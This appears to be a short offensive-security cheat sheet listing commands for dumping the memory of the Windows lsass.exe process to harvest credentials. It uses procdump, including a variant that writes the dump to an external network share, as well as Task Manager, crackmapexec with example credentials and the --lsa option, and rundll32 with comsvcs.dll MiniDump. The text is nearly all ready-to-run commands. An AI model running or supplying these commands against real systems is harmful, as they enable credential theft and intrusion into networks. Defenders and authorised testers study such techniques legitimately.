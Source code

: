 ## Dumping `lsass.exe`

### Procdump:
- We can dump `lsass.exe` using `procdump.exe`
```
procdump.exe -accepteula -ma lsass.exe lsass_dump
procdump.exe -accepteula -r -ma lsass.exe lsass_dump
procdump.exe (ps lsass).id data -ma
```
- Also can be done using PID
```
get-process lsass
OR
tasklist | findstr lsass

procdump.exe -accepteula -ma 580 out.dmp
```
- Also can be done to an external share
```
procdump.exe (ps lsass).id \\192.168.1.117\share\data -ma
```

### Task Manager:
- We can dump using Task Manager
```
> lsass.exe
> Create Dump File
```

### Crackmapexec:
- Using `crackmapexec`
```
crackmapexec smb 192.168.0.76 -u testadmin -p Password123 --lsa
```

### Comsvcs:
- Dump using lsass PID
```
Get-Process lsass
 C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 996 lsass.dmp full
```
